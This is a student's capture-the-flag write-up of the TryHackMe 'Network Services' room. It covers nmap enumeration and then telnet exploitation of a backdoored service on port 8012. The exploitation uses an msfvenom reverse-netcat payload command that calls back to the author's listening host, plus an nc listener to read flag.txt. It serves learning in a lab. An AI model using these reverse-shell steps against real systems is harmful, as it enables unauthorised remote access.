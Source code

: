 # Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access the target's assets by exploiting vulnerable services to access valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that the top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 and discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)

  - **Findings**:
	The open port is 8012
    	A possible username might be Skidy
        - Service might be a backdoor 

### 3.3 Exploitation
- **Vulnerability Identification**: Telnet vulnerability
  - **Techniques Used**:  Exploit using netcat reverse shell payload in the telnet server

- **Exploitation Process**:
  
- Enter `telnet 10.10.177.199 8012`  now you can connect to the telnet server using the discovered port 8012
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)

- Enter `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.64.194 lport=4444 R` to generate a reverse shell payload using msfvenom  
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/56f3c19c-bd00-4d59-98f6-7f47da11b424)

- Enter `nc -lvp 4444` to start netcat lister to listen for inbound connection and see data
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/cef1919e-40fc-4e27-b83b-7e1cbd3e0f18)

- Copy the payload into the telnet server CLI and press enter
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/09af501b-3792-4d1d-9fa7-0dc51f9f299d)

- Go to the netcat lister and enter `ls` it will show the file flag.txt
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/bad9f0bf-77d9-4770-90d3-5240f7384d8a)

- Enter `cat flag.txt` to capture the flag
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/d4896955-1e10-4cb3-9576-65c33d4684c5)


## 4. Analysis and Reflection
- **Challenges Faced**: Error with my configuration of kali and openvpn not being able to connect to the server
- **Learnings**: I Learned that telnet is unsecured because it has a lot of vulnerabilities when I checked CVE 
- **Improvements**: Familiarize with the commands 

## 5. Conclusion
- **Summary**: Successfully gained access to the telnet server by exploiting its vulnerability and using reverse shell payload to capture the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

